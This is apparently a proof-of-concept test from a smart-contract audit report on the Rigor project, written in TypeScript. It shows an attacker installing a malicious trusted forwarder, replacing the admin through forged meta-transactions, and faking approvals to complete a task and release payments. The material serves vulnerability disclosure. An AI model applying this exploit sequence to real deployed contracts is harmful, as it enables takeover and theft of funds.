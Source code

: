 The PoC was added to [projectTests.ts#L1109](https://github.com/code-423n4/2022-08-rigor/blob/5ab7ea84a1516cb726421ef690af5bc41029f88f/test/utils/projectTests.ts#L1109), and is based on the 'should be able to complete a task' test.

```typescript


  it('PoC forwarder overtake', async () => {
    const attacker = signers[10];


    // deploy the malicious forwarder
    const maliciousForwarder = await deploy<MaliciousForwarder>('MaliciousForwarder');
    const adminAddress = await homeFiContract.admin();
    const adminSigner = getSignerByAddress(signers, adminAddress);
    // attacker takes over
    await homeFiContract.connect(adminSigner).setTrustedForwarder(maliciousForwarder.address);
      
    // attacker can now replace the admin, so that admin can't set the forwarder back
    let { data } = await homeFiContract.populateTransaction.replaceAdmin(
      attacker.address
    );
    let from = adminAddress;
    let to = homeFiContract.address;
    if (!data) {
      throw Error('No data');
    }
    let tx = await executeMetaTX(from, to, data);

    // assert that admin has been replaced by attacker
    expect(await homeFiContract.admin()).to.be.eq(attacker.address);

    // attacker can now execute setComplete() using the approveHash() method

    const taskID = 1;
    const _taskCost = 2 * taskCost;
    const taskSC = signers[3];
    let completeData = {
      types: ['uint256', 'address'],
      values: [taskID, project.address],
    };
    const [encodedData, hash] = await encodeDataAndHash(completeData);
    await mockDAIContract.mock.transfer
      .withArgs(taskSC.address, _taskCost)
      .returns(true);
    await mockDAIContract.mock.transfer
      .withArgs(await homeFiContract.treasury(), _taskCost / 1e3)
      .returns(true);

    ({data} = await project.populateTransaction.approveHash(hash));
    let contractor = await project.contractor();
    let {subcontractor} = await project.getTask(taskID);
    let builder = await project.builder();

    await executeMetaTX(contractor, project.address, data as string);
    await executeMetaTX(subcontractor, project.address, data as string);
    await executeMetaTX(builder, project.address, data as string);
    

    tx = await project.setComplete(encodedData, "0x");
    await tx.wait();

    await expect(tx).to.emit(project, 'TaskComplete').withArgs(taskID);

```